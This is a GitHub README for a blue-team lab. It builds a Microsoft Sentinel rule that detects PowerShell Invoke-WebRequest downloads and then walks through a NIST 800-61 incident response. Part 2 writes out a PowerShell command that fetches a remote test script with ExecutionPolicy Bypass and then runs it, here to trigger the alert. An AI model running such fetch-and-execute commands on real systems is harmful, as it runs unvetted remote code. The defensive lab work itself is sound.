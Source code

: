# Incident-Response-PowerShell-Suspicious-Web-Request-NIST-800-61

![maxresdefault](https://github.com/user-attachments/assets/558ecbf6-9f87-49e7-8ba5-4a887e417840)

# Felipe Restrepo - Incident Response Project: PowerShell Suspicious Web Request

![1_H8m1AnUcij509FjfffrQ4w](https://github.com/user-attachments/assets/49cf05ff-84b1-4c26-8f68-0a0662b26d38)

# Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed/run on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the DeviceProcessEvents table. These logs are then forwarded to the Log Analytics Workspace being used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet. 

![Screenshot 2025-06-25 003037](https://github.com/user-attachments/assets/ef91ba7b-99fa-489b-84f2-de5439d8f486)

## 📌 Overview
This Microsoft Sentinel project demonstrates a real-world incident response scenario where PowerShell is abused by an attacker to download potentially malicious scripts using `Invoke-WebRequest`. It walks through every phase of the NIST 800-61 Incident Response Lifecycle and shows how to:

- Detect the suspicious behavior
- Automate alerting and incident generation
- Investigate and analyze
- Contain and recover
- Document findings and improve defenses

---

## 🔍 Step-by-Step Implementation

### ✅ Part 1: Create Alert Rule - PowerShell Suspicious Web Request

![Screenshot 2025-06-24 234055](https://github.com/user-attachments/assets/1aadda59-905b-48d9-a49e-80082432cdf1)

**Purpose:** Detect when PowerShell is used to download files using `Invoke-WebRequest`, signaling possible attacker activity.

**Rule Details:**
- **Name:** Felipe Restrepo - PowerShell Suspicious Web Request
- **Severity:** Medium
- **MITRE ATT&CK:**
  - T1071.001 – Web Protocols
  - T1105 – Ingress Tool Transfer
  - T1203 – Exploitation for Client Execution
  - T1041 – Exfiltration Over C2

![Screenshot 2025-06-24 234237](https://github.com/user-attachments/assets/cc3c270f-d6ff-4279-88f9-dfec5deeb90e)
![Screenshot 2025-06-24 234305](https://github.com/user-attachments/assets/34f16295-add7-4e24-94d1-c9a14b4ea98f)
![Screenshot 2025-06-24 234328](https://github.com/user-attachments/assets/6783eed8-1419-4337-bd55-b0f19ec22298)
![Screenshot 2025-06-24 234354](https://github.com/user-attachments/assets/0911b21c-7516-49f1-a39c-96af079259d2)

**KQL Detection Query:**
```kql
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "invoke-WebRequest"
```
![image](https://github.com/user-attachments/assets/b35df73c-385d-4270-88e2-d8505cba2840)

- **Entity Mapping:**
  - Account → AccountName
  - Host → DeviceName
  - Process → ProcessCommandLine
![Screenshot 2025-06-24 234645](https://github.com/user-attachments/assets/d8c4abf2-1602-4244-bcb8-0dd5bdced36c)

- **Query Schedule:** Every 4 hours, looking back 24 hours

![Screenshot 2025-06-24 234716](https://github.com/user-attachments/assets/da49f487-065f-4455-a9f2-9a58bd509126)

- **Alert threshold:** Is greater than 0

![Screenshot 2025-06-24 234723](https://github.com/user-attachments/assets/6e50c1d3-fc62-4923-bd82-e934bb148e45)

- **Suppression:** Enabled for 24 hours

![Screenshot 2025-06-24 234742](https://github.com/user-attachments/assets/30152700-f6b1-4a5a-aca9-2b18b6926315)

- **Alert Grouping**: Enabled

![Screenshot 2025-06-24 234800](https://github.com/user-attachments/assets/1f3d2470-4461-4ee5-97e1-5c1cfaf79830)

- **Rule Created and Actived by me who owns it**
![Screenshot 2025-06-24 234832](https://github.com/user-attachments/assets/212fb1fb-349e-42ac-9108-0a275b1d46f9)
![Screenshot 2025-06-24 235240](https://github.com/user-attachments/assets/07c7b81d-8d5d-4c85-92fe-52e8af568b7b)

---

### 🛑 Part 2: Trigger Alert & Create Incident

**Purpose:** Generate logs by executing PowerShell web requests, which will trigger the alert rule in Sentinel.

**PowerShell Commands to Run on VM:**
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```
**Result:** Microsoft Sentinel triggers the scheduled query and creates an incident.

---

### 🔎 Part 3: Investigate and Analyze the Incident

**Actions Taken:**
1. Alert was triggered on `windows-target-1`.
2. Entity mappings showed the account and command line activity.
3. User claimed they had installed free software before event.
4. Defender for Endpoint showed:

**KQL to Confirm Execution of Scripts:**
```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

![Screenshot 2025-06-25 001034](https://github.com/user-attachments/assets/91a00692-083c-4b29-8ff8-477de82106b5)

**🔎Investigated in the Investigation page for better analysis**

![Screenshot 2025-06-24 235327](https://github.com/user-attachments/assets/45bfd65a-e1f2-42c2-8147-b855e47d3c6c)
![Screenshot 2025-06-24 235648](https://github.com/user-attachments/assets/17eb0586-3194-444e-88fb-7b0335d7d6c8)


**Summary of Detected Scripts:**
| Script | Description |
|--------|-------------|
| `portscan.ps1` | Simulates a port scan |
| `pwncrypt.ps1` | Simulates ransomware-like encryption |
| `eicar.ps1` | Triggers antivirus as a test |
| `exfiltratedata.ps1` | Simulates data exfiltration |

---

### 🔒 Part 4: Containment, Eradication, and Recovery

**Actions:**
- Isolated VM in Microsoft Defender for Endpoint (MDE)
![Screenshot 2025-06-25 001624](https://github.com/user-attachments/assets/95d9320a-ee4b-4fe8-b894-2f2110cbaa99)

- Ran antivirus scan

![Screenshot 2025-06-25 001631](https://github.com/user-attachments/assets/3e522f68-c2e1-4eb6-8763-5e20119e8f75)

- Removed isolation after VM came back clean

---

### 📘 Part 5: Post-Incident Activities

**Notes and Improvements:**
- Updated PowerShell policy to restrict use to admins only
- Enrolled user in advanced cybersecurity awareness training (via KnowBe4)

---

### 🧹 Part 6: Process Closed and Cleaned Up

**After adding the notes to the incident I closed the case to show that I was able Respond to the Incident**

![Screenshot 2025-06-25 004354](https://github.com/user-attachments/assets/91ceca36-e86e-40dc-bc59-d9e967c5d46b)
![Screenshot 2025-06-25 004532](https://github.com/user-attachments/assets/1f4dc191-7480-4a76-8088-a66253e10c2a)

---

## 📌 Final Notes:
- This project is based on Felipe Restrepo's real-world detection and incident response case using Microsoft Sentinel.
- It emphasizes a full detection-to-resolution workflow with hands-on implementation of a MITRE-aligned use case.
- Ideal for security analyst portfolios or blue team practice labs.

---

### 📎 References
- Microsoft Sentinel documentation
- MITRE ATT&CK Framework
- Josh Madakor Cyber Range Scripts
- NIST 800-61: Computer Security Incident Handling Guide
